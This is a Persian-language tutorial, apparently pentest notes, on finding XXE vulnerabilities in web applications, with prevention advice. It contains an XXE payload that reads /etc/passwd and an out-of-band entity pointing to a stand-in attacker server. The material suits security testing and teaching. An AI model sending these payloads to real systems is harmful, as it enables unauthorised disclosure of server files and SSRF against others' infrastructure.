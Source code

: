 # XXE

آسیب‌پذیری XXE (XML External Entity) زمانی رخ می‌دهد که یک برنامه وب ورودی‌های XML را بدون محدودیت روی موجودیت‌های خارجی (External Entities) پردازش کند. این آسیب‌پذیری می‌تواند منجر به افشای اطلاعات حساس، اجرای کد از راه دور، حملات SSRF و حتی Denial of Service شود.

مراحل و روش‌های کشف XXE
1. شناسایی نقاطی که ورودی XML دریافت می‌کنند
ابتدا باید بخش‌هایی از وب‌سایت یا API که ورودی XML می‌گیرند (مثلاً SOAP، REST با payload XML، آپلود فایل‌های XML و ...) را پیدا کنید.

2. تست دستی با تزریق موجودیت خارجی (External Entity)
یک فایل XML دستکاری شده می‌سازید که در آن یک موجودیت خارجی تعریف شده است. نمونه ساده:

```bash
<?xml version="1.0" encoding="ISO-8859-1"?>
<!DOCTYPE foo [
  <!ELEMENT foo ANY >
  <!ENTITY xxe SYSTEM "file:///etc/passwd" >]>
<foo>&xxe;</foo>
```

این XML را به سرور ارسال کنید (مثلاً در درخواست POST).

اگر محتوای فایل /etc/passwd یا هر فایل محلی دیگری در پاسخ برگشت داده شود، یعنی آسیب‌پذیری XXE وجود دارد.

3. تست با موجودیت خارجی به سمت سرور مهاجم (Out-of-Band)
موجودیت خارجی را به URL سرور خود (که کنترلش را دارید) ارجاع دهید:

```bash
<!ENTITY xxe SYSTEM "http://your-malicious-server.com/evil">
```

سپس با بررسی لاگ‌های سرور خود می‌توانید بفهمید که سرور هدف درخواست به URL شما ارسال کرده است یا خیر. این روش برای شناسایی Blind XXE کاربرد دارد.

4. بررسی پیام‌های خطا و رفتار سرور
گاهی اوقات سرور با خطاهای XML یا پیام‌هایی که حاوی اطلاعات حساس است پاسخ می‌دهد. این پیام‌ها می‌توانند نشانه وجود XXE باشند.

5. استفاده از ابزارهای خودکار
ابزارهایی مثل Burp Suite (با افزونه‌های XXE)، OWASP ZAP و اسکنرهای تخصصی XXE می‌توانند به صورت خودکار ورودی‌های XML را اسکن و آسیب‌پذیری را شناسایی کنند.

6. بررسی کد منبع (در صورت دسترسی)
اگر به کد برنامه دسترسی دارید، بررسی کنید که آیا پارسر XML با تنظیمات امن (غیرفعال کردن DTD، موجودیت‌های خارجی و ...) استفاده شده است یا خیر.

نکات مهم
آسیب‌پذیری XXE زمانی رخ می‌دهد که پارسر XML اجازه بارگذاری DTD و موجودیت‌های خارجی را بدهد.

ساده‌ترین راه جلوگیری، غیرفعال کردن DTD و موجودیت‌های خارجی در پارسر XML است.

XXE می‌تواند منجر به افشای فایل‌های محلی، حملات SSRF و حتی اجرای کد از راه دور شود.

منابع و مطالعه بیشتر
راورو - معرفی و کشف XXE

گروه مهندسین فناوری نوین۵۲ - آسیب‌پذیری XXE

بلاگ گروه لیان - شناسایی و اکسپلویت XXE

آموزش ویدئویی شکار XXE

خلاصه
برای پیدا کردن XXE:

نقاط ورودی XML را شناسایی کنید.

یک فایل XML حاوی موجودیت خارجی (مثلاً خواندن فایل محلی یا ارجاع به URL خارجی) بسازید.

آن را به سرور ارسال کنید و پاسخ یا لاگ‌های سرور را بررسی کنید.

از ابزارهای اتوماتیک برای اسکن کمک بگیرید.

در صورت مشاهده اجرای کد یا افشای اطلاعات، آسیب‌پذیری تایید می‌شود.

این روش‌ها به شما کمک می‌کند تا به صورت دقیق و جامع آسیب‌پذیری XXE را در تست نفوذ وب شناسایی کنید.

======================================================

path: /etc/passwd 
